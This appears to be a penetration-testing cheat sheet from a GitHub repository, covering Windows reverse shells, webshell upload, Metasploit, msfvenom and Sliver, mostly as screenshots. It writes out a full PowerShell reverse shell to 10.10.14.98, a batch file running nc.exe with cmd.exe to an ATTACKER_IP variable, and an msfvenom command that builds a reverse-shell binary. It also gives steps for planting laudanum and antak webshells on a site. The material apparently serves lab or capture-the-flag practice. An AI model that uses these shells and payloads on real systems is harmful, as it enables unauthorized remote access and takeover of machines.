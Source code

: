 

# Windows reverse shells
## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat
```
@echo off
set ATTACKER_IP=10.10.14.98
set PORT=1234

nc.exe %ATTACKER_IP% %PORT% -e cmd.exe
```
## Nishang


# Webshells

## laudanum
Find the type of shell needed, make copy


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bc795f21-8190-4590-a4a3-2fb35488a5fa)
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54a0b631-94a3-4ce9-a001-6e5c213c3a7b)


Add our IP


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8ee9650-7b22-4c93-9136-a06e2fe8129a)

Upload file to site, go to location of file.


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d49eabfc-1581-497d-bc91-b7346bb9d019)

### antak

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7d56c6d0-80cf-4e78-92c7-b43b8326ebf2)

change login info

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0393c2f3-08b3-4015-a1ce-699bbed4e6b2)

Upload go to shell page

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f5158b1f-e185-4343-9278-23ea1ece5ecc)# Payloads


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/49b877f9-8979-4760-9b1f-038c410c9e7f)


# Metasploit


msfconsole

Search

use 0

options/info

set lhost 10.0.0.6

run

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bdad199f-8392-47e3-b680-87bf8ad77436)


## Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

## msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -f elf -o shell.elf
```


## msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


## show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```
# Sliver

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/47d173f7-f725-4f09-a7d5-407fd6d67398)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/61c75ccc-9ad2-4aaa-a186-458ebf22ddff)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5844f8d6-9654-4bbf-9079-357bb7c5161e)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/66e93bb6-8523-46fb-9753-ae8fcbda44ee)

